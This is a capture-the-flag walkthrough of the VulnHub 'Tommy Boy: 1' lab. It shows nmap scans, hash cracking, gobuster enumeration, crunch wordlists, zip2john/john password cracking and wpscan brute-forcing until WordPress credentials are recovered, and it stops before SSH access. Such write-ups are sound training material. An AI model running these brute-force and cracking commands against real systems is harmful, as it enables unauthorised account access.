


Return to Main Page
Tommy Boy: 1 Walkthrough
Contents
Running a port scan against the full port range to determine which ones are open.
# Nmap 7.91 scan initiated Mon Sep 27 16:01:40 2021 as: nmap -p- -oN ping_tcp 10.0.0.22
Nmap scan report for 10.0.0.22
Host is up (0.0017s latency).
Not shown: 65531 closed ports
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
8008/tcp open http
65534/tcp open unknown
MAC Address: 00:0C:29:6E:ED:CF (VMware)
# Nmap done at Mon Sep 27 16:01:48 2021 -- 1 IP address (1 host up) scanned in 8.10 seconds
Running an nmap scan using the flags -sV and -sC to enumerate service versions and other information.
# Nmap 7.91 scan initiated Mon Sep 27 16:02:01 2021 as: nmap -p22,80,8008,65534 -sV -sC -oN script_tcp 10.0.0.22
Nmap scan report for 10.0.0.22
Host is up (0.00030s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 a0:ca:62:ce:f6:7e:ae:8b:62:de:0b:db:21:3f:b0:d6 (RSA)
| 256 46:6d:4b:4b:02:86:89:27:28:5c:1d:87:10:55:3d:59 (ECDSA)
|_ 256 56:9e:71:2a:a3:83:ff:63:11:7e:94:08:dd:28:1d:46 (ED25519)
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 4 disallowed entries
| /6packsofb...soda /lukeiamyourfather
|_/lookalivelowbridge /flag-numero-uno.txt
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to Callahan Auto
8008/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: KEEP OUT
65534/tcp open ftp ProFTPD 1.2.10
MAC Address: 00:0C:29:6E:ED:CF (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Sep 27 16:02:36 2021 -- 1 IP address (1 host up) scanned in 35.70 seconds
I can't figure out the FTP creds so I start enumerating the web servers. I begin with port 80. Robots.txt gives me a flag and a few pictures. But none of it seems to lead anywhere. I then go back to the main page http://10.0.0.22 and look at the source code. In the source code I find some comments that lead us to to the next step in gaining a foothold.
<!--Comment from Nick: backup copy is in Big Tom's home folder-->
<!--Comment from Richard: can you give me access too? Big Tom's the only one w/password-->
<!--Comment from Nick: Yeah yeah, my processor can only handle one command at a time-->
<!--Comment from Richard: please, I'll ask nicely-->
<!--Comment from Nick: I will set you up with admin access *if* you tell Tom to stop storing important information in the company blog-->
<!--Comment from Richard: Deal. Where's the blog again?-->
<!--Comment from Nick: Seriously? You losers are hopeless. We hid it in a folder named after the place you noticed after you and Tom Jr. had your big fight. You know, where you cracked him over the head with a board. It's here if you don't remember: https://www.youtube.com/watch?v=VUxOd4CszJ8-->
<!--Comment from Richard: Ah! How could I forget? Thanks-->
After watching the youtube link we can guess that the web directory we are looking for is "/prehistoricforest/. http://10.0.0.22/prehistoricforest/ leads us to a wordpress page. There is a password protected post on the wordpress page at this link, http://10.0.0.22/prehistoricforest/index.php/2016/07/06/status-of-restoring-company-home-page/, and there is another post here, http://10.0.0.22/prehistoricforest/index.php/2016/07/06/status-of-restoring-company-home-page/, which tells us to go to /richard to find the password to the password protected wordpress post. /richard leads us to a picture that we download and examine with exiftool.
┌──(kali㉿kali)-[~/Documents/VulnHub/TommyBoy_1/nmap]
└─$ wget http://10.0.0.22/richard/shockedrichard.jpg
--2021-09-27 18:38:09-- http://10.0.0.22/richard/shockedrichard.jpg
Connecting to 10.0.0.22:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 167037 (163K) [image/jpeg]
Saving to: ‘shockedrichard.jpg’
shockedrichard.jpg 100%[=============================================================================>] 163.12K --.-KB/s in 0.001s
2021-09-27 18:38:09 (273 MB/s) - ‘shockedrichard.jpg’ saved [167037/167037]
┌──(kali㉿kali)-[~/Documents/VulnHub/TommyBoy_1/nmap]
└─$ exiftool shockedrichard.jpg
ExifTool Version Number : 12.30
File Name : shockedrichard.jpg
Directory : .
File Size : 163 KiB
File Modification Date/Time : 2016:07:07 15:17:24-04:00
File Access Date/Time : 2021:09:27 18:38:09-04:00
File Inode Change Date/Time : 2021:09:27 18:38:09-04:00
File Permissions : -rw-r--r--
File Type : JPEG
File Type Extension : jpg
MIME Type : image/jpeg
JFIF Version : 1.01
Resolution Unit : None
X Resolution : 1
Y Resolution : 1
Exif Byte Order : Little-endian (Intel, II)
Software : Google
Copyright : Copyright © 1995 Paramount Pictures Corporation. Credit: © 1995 Paramount Pictures / Courtesy: Pyxurz.
Exif Version : 0220
User Comment : ce154b5a8e59c89732bc25d6a2e6b90b
Exif Image Width : 1600
Exif Image Height : 1029
XMP Toolkit : Image::ExifTool 9.97
Rights : Copyright © 1995 Paramount Pictures Corporation. Credit: © 1995 Paramount Pictures / Courtesy: Pyxurz.
Creator Tool : Google
Profile CMM Type : Linotronic
Profile Version : 2.1.0
Profile Class : Display Device Profile
Color Space Data : RGB
Profile Connection Space : XYZ
Profile Date Time : 1998:02:09 06:49:00
Profile File Signature : acsp
Primary Platform : Microsoft Corporation
CMM Flags : Not Embedded, Independent
Device Manufacturer : Hewlett-Packard
Device Model : sRGB
Device Attributes : Reflective, Glossy, Positive, Color
Rendering Intent : Media-Relative Colorimetric
Connection Space Illuminant : 0.9642 1 0.82491
Profile Creator : Hewlett-Packard
Profile ID : 0
Profile Copyright : Copyright (c) 1998 Hewlett-Packard Company
Profile Description : sRGB IEC61966-2.1
Media White Point : 0.95045 1 1.08905
Media Black Point : 0 0 0
Red Matrix Column : 0.43607 0.22249 0.01392
Green Matrix Column : 0.38515 0.71687 0.09708
Blue Matrix Column : 0.14307 0.06061 0.7141
Device Mfg Desc : IEC http://www.iec.ch
Device Model Desc : IEC 61966-2.1 Default RGB colour space - sRGB
Viewing Cond Desc : Reference Viewing Condition in IEC61966-2.1
Viewing Cond Illuminant : 19.6445 20.3718 16.8089
Viewing Cond Surround : 3.92889 4.07439 3.36179
Viewing Cond Illuminant Type : D50
Luminance : 76.03647 80 87.12462
Measurement Observer : CIE 1931
Measurement Backing : 0 0 0
Measurement Geometry : Unknown
Measurement Flare : 0.999%
Measurement Illuminant : D65
Technology : Cathode Ray Tube Display
Red Tone Reproduction Curve : (Binary data 2060 bytes, use -b option to extract)
Green Tone Reproduction Curve : (Binary data 2060 bytes, use -b option to extract)
Blue Tone Reproduction Curve : (Binary data 2060 bytes, use -b option to extract)
Current IPTC Digest : adfc7551120fa16884c295b6d397931f
Envelope Record Version : 4
Coded Character Set : UTF8
Application Record Version : 4
Copyright Notice : Copyright © 1995 Paramount Pictures Corporation. Credit: © 1995 Paramount Pictures / Courtesy: Pyxurz.
IPTC Digest : adfc7551120fa16884c295b6d397931f
Image Width : 1600
Image Height : 1029
Encoding Process : Baseline DCT, Huffman coding
Bits Per Sample : 8
Color Components : 3
Y Cb Cr Sub Sampling : YCbCr4:2:0 (2 2)
Image Size : 1600x1029
Megapixels : 1.6
The "User Comment" looks like a md5 hash so I crack it with hashcat and find out that the password is "spanky". Now we can look at the password protected post on this page - http://10.0.0.22/prehistoricforest/index.php/2016/07/06/status-of-restoring-company-home-page/.
We learn a few things from this post
- There is a backup of the web page called callahanbak.bak that we can change to index.html and the website will be up and running again.
- We must SSH in under Big Tom's account to do this.
- Big Tom's account is not accurately named, so we will need to find out his account name.
- We can find his account name by looking at the list of users on the system. Not sure where to find this at this point.
- The FTP server will have useful information for us.
- The FTP server is flakey. It supposedly turns off and on every 15 minutes.
- It is running on a random port number. We already have enumerated this.
- The account name is nickburns
- The password is supposed to be very easy to guess.
First I login the the FTP server. The credentials turn out to be nickburns:nickburns. On the FTP server is file named readme.txt. I download it. It reveals a directory that works as a dropbox named "NickIzL33t". It also says I should be able to find Big Tom's password in that directory. I browse to the dropbox on port 8008 but I hit a roadblock
The web page just says
Nick's sup3r s3cr3t dr0pb0x - only me and Steve Jobs can see this content
Lol
Thinking back to the readme.txt that I downloaded from the FTP server, it mentioned looking at files from this website on your phone. So I used burp to intercept web requests and change my user agent to make it look like I am browsing from a phone.

Now when I browse to http://10.0.0.22:8008/NickIzL33t/ I get text saying
Well, you passed the dummy test
But Nick's secret door isn't that easy to open.
Gotta know the EXACT name of the .html to break into this fortress.
Good luck brainiac.
Lol
-Nick
I used gobuster to find the .html file name. I used a few different wordlists before landing on rockyou.txt. I also setup gobuster to with the user-agent to identify as a cell phone (iphone in this case).
┌──(kali㉿kali)-[~/Documents/VulnHub/TommyBoy_1/WebEnum]
└─$ gobuster dir -u http://10.0.0.22:8008/NickIzL33t/ -w /usr/share/wordlists/rockyou.txt -x html -a "User-Agent: Mozilla/5.0 (iPhone; CPU iPhone OS 5_1 like Mac OS X) AppleWebKit/534.46 (KHTML, like Gecko) Version/5.1 Mobile/9B176 Safari/7534.48.3" | tee nickisl33t
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://10.0.0.22:8008/NickIzL33t/
[+] Method: GET
[+] Threads: 10
[+] Wordlist: /usr/share/wordlists/rockyou.txt
[+] Negative Status codes: 404
[+] User Agent: User-Agent: Mozilla/5.0 (iPhone; CPU iPhone OS 5_1 like Mac OS X) AppleWebKit/534.46 (KHTML, like Gecko) Version/5.1 Mobile/9B176 Safari/7534.48.3
[+] Extensions: html
[+] Timeout: 10s
===============================================================
2021/09/27 20:28:00 Starting gobuster in directory enumeration mode
===============================================================
Progress: 6644 / 28688786 (0.02%)[ERROR] 2021/09/27 20:28:01 [!] parse "http://10.0.0.22:8008/NickIzL33t/!@#$%^": invalid URL escape "%^"
Progress: 40776 / 28688786 (0.14%)[ERROR] 2021/09/27 20:28:03 [!] parse "http://10.0.0.22:8008/NickIzL33t/!\"£$%^": invalid URL escape "%^"
Progress: 47376 / 28688786 (0.17%)[ERROR] 2021/09/27 20:28:04 [!] parse "http://10.0.0.22:8008/NickIzL33t/!@#$%^&*()": invalid URL escape "%^&"
/??????.html (Status: 200) [Size: 270]
/?????? (Status: 200) [Size: 270]
Progress: 67280 / 28688786 (0.23%) [ERROR] 2021/09/27 20:28:06 [!] parse "http://10.0.0.22:8008/NickIzL33t/100%sexy": invalid URL escape "%se"
[ERROR] 2021/09/27 20:28:06 [!] parse "http://10.0.0.22:8008/NickIzL33t/100%angel": invalid URL escape "%an"
Progress: 73806 / 28688786 (0.26%) [ERROR] 2021/09/27 20:28:06 [!] parse "http://10.0.0.22:8008/NickIzL33t/!@#$%^&*": invalid URL escape "%^&"
Progress: 80402 / 28688786 (0.28%) [ERROR] 2021/09/27 20:28:06 [!] parse "http://10.0.0.22:8008/NickIzL33t/100%bitch": invalid URL escape "%bi"
/////// (Status: 200) [Size: 270]
///////.html (Status: 403) [Size: 94]
Progress: 106792 / 28688786 (0.37%) [ERROR] 2021/09/27 20:28:08 [!] parse "http://10.0.0.22:8008/NickIzL33t/!@#$%^&*(": invalid URL escape "%^&"
Progress: 119898 / 28688786 (0.42%) [ERROR] 2021/09/27 20:28:09 [!] parse "http://10.0.0.22:8008/NickIzL33t/100%me": invalid URL escape "%me"
Progress: 133056 / 28688786 (0.46%) [ERROR] 2021/09/27 20:28:11 [!] parse "http://10.0.0.22:8008/NickIzL33t/100%cute": invalid URL escape "%cu"
Progress: 139692 / 28688786 (0.49%) [ERROR] 2021/09/27 20:28:11 [!] parse "http://10.0.0.22:8008/NickIzL33t/!@#$%^&": invalid URL escape "%^&"
[ERROR] 2021/09/27 20:28:11 [!] parse "http://10.0.0.22:8008/NickIzL33t/!@#$%": invalid URL escape "%"
Progress: 152810 / 28688786 (0.53%) [ERROR] 2021/09/27 20:28:12 [!] parse "http://10.0.0.22:8008/NickIzL33t/100%love": invalid URL escape "%lo"
[ERROR] 2021/09/27 20:28:12 [!] parse "http://10.0.0.22:8008/NickIzL33t/!\"£$%^&*()": invalid URL escape "%^&"
Progress: 172212 / 28688786 (0.60%) [ERROR] 2021/09/27 20:28:13 [!] parse "http://10.0.0.22:8008/NickIzL33t/100%cool": invalid URL escape "%co"
/fallon1.html (Status: 200) [Size: 459]
Progress: 205096 / 28688786 (0.71%) [ERROR] 2021/09/27 20:28:16 [!] parse "http://10.0.0.22:8008/NickIzL33t/100%real": invalid URL escape "%re"
The output is a little messy but I watched the output until an interesting status 200 returned. fallon1.html turns out to be the correct .html file name.
http://10.0.0.22:8008/NickIzL33t/ we are presented with a few different links
- http://10.0.0.22:8008/NickIzL33t/hint.txt
- Gives us the criteria required for Big Tom's password
- Starts with "bev"
- One uppercase character
- Two numbers
- Two lowercase characters
- One symbol
- The year Tommy boy came out in theaters (1995)
- http://10.0.0.22:8008/NickIzL33t/flagtres.txt
- http://10.0.0.22:8008/NickIzL33t/t0msp4ssw0rdz.zip
- The encrypted backup file
First I download t0msp4ssw0rdz.zip and then I generate a wordlist, based on the criteria given, to crack the zip file password. I used the tool crunch to generate the list.
┌──(kali㉿kali)-[~/Documents/VulnHub/TommyBoy_1]
└─$ crunch 13 13 -t bev,%%@@^1995 -o pass.lst 130 ⨯
Then I used zip2john to generate a password hash to crack.
┌──(kali㉿kali)-[~/Documents/VulnHub/TommyBoy_1/exfiltrated]
└─$ zip2john t0msp4ssw0rdz.zip > pass_hash
ver 2.0 efh 5455 efh 7875 t0msp4ssw0rdz.zip/passwords.txt PKZIP Encr: 2b chk, TS_chk, cmplen=332, decmplen=641, crc=DF15B771
After creating the hash, I use john to crack the hash while using the password list generated by crunch as the wordlist
┌──(kali㉿kali)-[~/Documents/VulnHub/TommyBoy_1]
└─$ john --wordlist=pass.lst pass_hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
bevH00tr$1995 (t0msp4ssw0rdz.zip/passwords.txt)
1g 0:00:00:01 DONE (2021-09-28 09:51) 0.7751g/s 12122Kp/s 12122Kc/s 12122KC/s bevH00re{1995..bevH01as'1995
Use the "--show" option to display all of the cracked passwords reliably
Session completed
The password bevH00tr$1995 is revelead. We can now unzip and read the encrypted password file.
┌──(kali㉿kali)-[~/Documents/VulnHub/TommyBoy_1/exfiltrated]
└─$ cat passwords.txt
Sandusky Banking Site
------------------------
Username: BigTommyC
Password: money
TheKnot.com (wedding site)
---------------------------
Username: TomC
Password: wedding
Callahan Auto Server
----------------------------
Username: bigtommysenior
Password: fatguyinalittlecoat
Note: after the "fatguyinalittlecoat" part there are some numbers, but I don't remember what they are.
However, I wrote myself a draft on the company blog with that information.
Callahan Company Blog
----------------------------
Username: bigtom(I think?)
Password: ???
Note: Whenever I ask Nick what the password is, he starts singing that famous Queen song.
The takeaway here, is that we need to get into Tom's wordpress account in order to find the numbers that go after his server (ssh?) password. The Queen song that the password file hints at is "We Will Rock You" which leads us to rockyou.txt for our password list. I run wpscan twice to get the valid credentials. The first time I run it without a user list so that wpscan enumerates users for me.
┌──(kali㉿kali)-[~/Documents/VulnHub/TommyBoy_1]
└─$ wpscan --url http://10.0.0.22/prehistoricforest/ -P /usr/share/wordlists/rockyou.txt
_______________________________________________________________
__ _______ _____
\ \ / / __ \ / ____|
\ \ /\ / /| |__) | (___ ___ __ _ _ __ ®
\ \/ \/ / | ___/ \___ \ / __|/ _` | '_ \
\ /\ / | | ____) | (__| (_| | | | |
\/ \/ |_| |_____/ \___|\__,_|_| |_|
WordPress Security Scanner by the WPScan Team
Version 3.8.18
Sponsored by Automattic - https://automattic.com/
@_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________
(Lines Removed)
[+] Enumerating Users (via Passive and Aggressive Methods)
Brute Forcing Author IDs - Time: 00:00:00 <======================================> (10 / 10) 100.00% Time: 00:00:00
[i] User(s) Identified:
[+] tommy
| Found By: Author Posts - Author Pattern (Passive Detection)
| Confirmed By:
| Author Id Brute Forcing - Author Pattern (Aggressive Detection)
| Login Error Messages (Aggressive Detection)
[+] richard
| Found By: Author Posts - Author Pattern (Passive Detection)
| Confirmed By:
| Rss Generator (Passive Detection)
| Author Id Brute Forcing - Author Pattern (Aggressive Detection)
| Login Error Messages (Aggressive Detection)
[+] tom
| Found By: Author Posts - Author Pattern (Passive Detection)
| Confirmed By:
| Author Id Brute Forcing - Author Pattern (Aggressive Detection)
| Login Error Messages (Aggressive Detection)
[+] Tom Jr.
| Found By: Rss Generator (Passive Detection)
[+] Big Tom
| Found By: Rss Generator (Passive Detection)
[+] michelle
| Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
| Confirmed By: Login Error Messages (Aggressive Detection)
[+] Performing password attack on Wp Login against 6 user/s
^Cying Tom Jr. / kiss Time: 00:09:58 < > (92405 / 86066352) 0.10% ETA: ??:??:??
[i] No Valid Passwords Found.
[!] No WPScan API Token given, as a result vulnerability data has not been output. / 86066352) 0.10% ETA: ??:??:??
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register
[+] Finished: Tue Sep 28 10:49:48 2021
[+] Requests Done: 92577
[+] Cached Requests: 39
[+] Data Sent: 49.071 MB
[+] Data Received: 339.861 MB
[+] Memory used: 303.793 MB
[+] Elapsed time: 00:10:03
Scan Aborted: Canceled by User
It takes too long to brute force against all of the users that were enumerated so I take "big tom" and "tom" and put them in a user list so I am only brute forcing against those two usernames. The other usernames do not seem like they would apply to Tom Sr., which is who's account we are trying to access. So I run wordpress again using this username list and I get valid credentials.
┌──(kali㉿kali)-[~/Documents/VulnHub/TommyBoy_1]
└─$ wpscan --url http://10.0.0.22/prehistoricforest/ -P /usr/share/wordlists/rockyou.txt -U ./users.lst 2 ⨯
_______________________________________________________________
__ _______ _____
\ \ / / __ \ / ____|
\ \ /\ / /| |__) | (___ ___ __ _ _ __ ®
\ \/ \/ / | ___/ \___ \ / __|/ _` | '_ \
\ /\ / | | ____) | (__| (_| | | | |
\/ \/ |_| |_____/ \___|\__,_|_| |_|
WordPress Security Scanner by the WPScan Team
Version 3.8.18
Sponsored by Automattic - https://automattic.com/
@_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________
(Lines Removed)
[+] Performing password attack on Wp Login against 2 user/s
[SUCCESS] - tom / tomtom1
^Cying big tom / 210491 Time: 00:05:28 < > (53196 / 28713447) 0.18% ETA: 49:12:52
[!] Valid Combinations Found:
| Username: tom, Password: tomtom1
Now we can login to http://10.0.0.22/prehistoricforest/wp-login.php with tom:tomtom1 and read his drafts to see which numbers come after his SSH password.
